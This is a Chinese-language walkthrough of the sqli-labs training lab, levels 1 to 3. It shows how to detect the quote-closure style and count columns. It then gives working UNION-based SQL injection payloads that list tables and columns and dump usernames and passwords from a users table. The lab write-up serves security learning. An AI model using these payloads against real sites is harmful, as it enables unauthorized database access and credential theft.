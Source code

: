 ## Less-1（'单引号闭合字符型）

1.判断是否存在注入，注入的类型（数字，字符等），猜测后端语句闭合方式，初步在心里形成简单绕过思路

```java
?id=1' 
?id=1" 
?id=1') 
?id=1") 
?id=1' or 1#
?id=1' or 0#
?id=1' or 1=1#
?id=1' and 1=2#
?id=1' and sleep(5)#
?id=1' and 1=2 or ' 
?id=1\
```

2.探测闭合方式为单引号闭合**?id=x' 触发异常，注释方式--+ 或者%23（#）注释。**

3.fuzz情况：无异常

因此二分法开始探测回显位（位置，字段数量）：

```sql
?id=1' order by 3%23时回显正常   order by 4%23时回显出错，说明联合查询位数为3
?id=-1' union select 1,2,3%23    ##回显位在2，3
?id=-1' union select 1,database(),@@version   #探测当前数据库名（security），版本(5.5.53)
?id=-1' union select 1,2,group_concat(0x7e,table_name,0x7e) from information_schema.tables where table_schema='security'%23
#查到表：~emails~,~referers~,~uagents~,~users~
?id=-1' union select 1,2,group_concat(0x7e,column_name,0x7e) from information_schema.columns where table_name='users'%23
#查到 users表中有如下字段： ~id~,~username~,~password~,~level~,~id~,~username~,~password~
?id=-1' union select 1,group_concat(0x7e,username,0x7e),group_concat(0x7e,password,0x7e) from users%23
#获取到用户名与密码，注入完成。
```

## Less-2（无闭合字符型）

探测为无闭合的数字型注入点，因此直接构造获取数据即可

```sql
?id=-1 union select 1,group_concat(0x7e,username,0x7e),group_concat(0x7e,password,0x7e) from users%23
```

## Less-3（')单引号+括号闭合字符型）

```sql
?id=-1') union select 1,group_concat(0x7e,username,0x7e),group_concat(0x7e,password,0x7e) from users%23
```
